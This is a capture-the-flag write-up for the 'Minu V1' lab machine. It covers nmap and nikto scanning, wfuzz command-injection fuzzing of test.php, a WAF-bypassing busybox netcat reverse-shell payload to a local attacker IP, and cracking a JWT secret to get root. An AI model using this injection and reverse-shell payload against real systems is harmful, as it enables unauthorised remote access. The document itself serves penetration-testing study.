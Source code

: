 # Minu V1 Write Up

### Getting the Ip address of the target machine I used arp-scan in local network

> target ip: 192.168.100.14

### Target Scanning using nmap

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sV 192.168.100.14                           
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-20 03:10 EDT
Nmap scan report for 192.168.100.14
Host is up (0.0025s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.27
MAC Address: 08:00:27:E8:55:D7 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Host: 127.0.1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.10 seconds

```

Only http port (80) is open, lets open it in web browser and got the following page
![homepage](screenshots/homepage.png)

Using the nikto tool to get the vulnearabilities

```bash

┌──(kali㉿kali)-[~/Desktop/Machines_WriteUps/Minu_v1]
└─$ nikto -h http://192.168.100.14/           
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.100.14
+ Target Hostname:    192.168.100.14
+ Target Port:        80
+ Start Time:         2025-09-20 11:11:15 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.27 (Ubuntu)
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /: Server may leak inodes via ETags, header found with file /, inode: 2aa6, size: 56a9aee1bb80f, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ Apache/2.4.27 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS: Allowed HTTP Methods: POST, OPTIONS, HEAD, GET .
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /test.php: This might be interesting.
+ 8102 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2025-09-20 11:13:49 (GMT-4) (154 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```

So here I got the hidden file `test.php`
![test.php page](./screenshots/test_php.png)

Here is the test.php page but I didn't got any interesting stuff.

Now I tested, the local file inclusive vulnearability, but WAP (Web Application Firewall) blocks it, so we need to bypass the filters and for this we have to supply some payloads until we get some response

For this, I will be using `wfuzz`, a web application fuzzer used for brute-forcing and testing web parameters.

```bash
wfuzz -c -u 'http://192.168.100.14/test.php?file=FUZZ' -w /usr/share/wfuzz/wordlist/Injections/All_attack.txt --hc 403 --hw 159

# -u target URL
# -w wordlist
# --hc 403 hides responses with HTTP status code 403
# --hw 159 hides responses whose body has 159 words
```

Output:

```bash

┌──(kali㉿kali)-[~/Desktop/Machines_WriteUps/Minu_v1]
└─$ wfuzz -c -u 'http://192.168.100.14/test.php?file=FUZZ' -w /usr/share/wfuzz/wordlist/Injections/All_attack.txt --hc 403 --hw 159
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.100.14/test.php?file=FUZZ
Total requests: 468

=====================================================================
ID           Response   Lines    Word       Chars       Payload                 
=====================================================================

000000046:   200        41 L     163 W      2033 Ch     "|dir"                  
000000045:   200        41 L     162 W      2040 Ch     "|id"                   

Total time: 5.707429
Processed Requests: 468
Filtered Requests: 466
Requests/sec.: 81.99838

```

So I got the following payload `|dir` and `|id` 
![payload working](screenshots/payload_1.png)

### Bypassing WAF

So I tested and many payload and got the interesting one that is `which` through I go the nc binary path, so we can establish reverse shell connection with target machine using netcat, but we will need a vulnearable binary to execute the nc command

The target machine is having `busybox` binary and its path is `/bin/busybox` so we can use this to execute the netcat.

For busybox payload I will be using [GTFIO BIns](https://gtfobins.github.io/gtfobins/busybox/)

So the payload goes as:

```bash

http://192.168.100.14/test.php?file=shell;busybox /b?n/nc 192.168.100.5 4433  -e sh

```

and got the reverse shell

![reverse shell](./screenshots/rev_shell.png)

As I got the reverse shell, after little bit enumeration I got a text file in path
`/home/bob` 

Its contents is:

```jwt
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.pn55j1CFpcLjvReaqyJr0BPEMYUsBdoDxEPo6Ft9cwg
```

It is JWT token, so to crack this I used [JWT cracker](https://github.com/brendan-rius/c-jwt-cracker) and the secret is `mlnV1`

Let's use this as root user password 
![flag](./screenshots/flag.png)

## Got the FLAG 🚩🚩

## Key Learnings
.

🌐 Web fuzzing & file inclusion:

- Hidden endpoints (test.php) can reveal vulnerabilities.

- Local File Inclusion (LFI) can sometimes be combined with command injection (e.g., payloads like |id).

🛡️ Bypassing WAF:

- Try variations of payloads and fuzzers (wfuzz) to identify allowed characters/commands.

- Use known exploits from resources like GTFOBins for binaries available on the host (busybox here).

🖥️ Privilege escalation / gaining shell:

- Reverse shells via netcat or busybox can provide access when direct execution is blocked.

🔑 Post-exploitation:

- Enumerate user directories to find sensitive data (e.g., JWT tokens).

- Decode/crack JWT secrets; they might act as credentials for privilege escalation.

🚩 General tips:

- Systematic enumeration → exploit → shell → escalate → loot is a solid workflow.

- Document every step and payload for future reference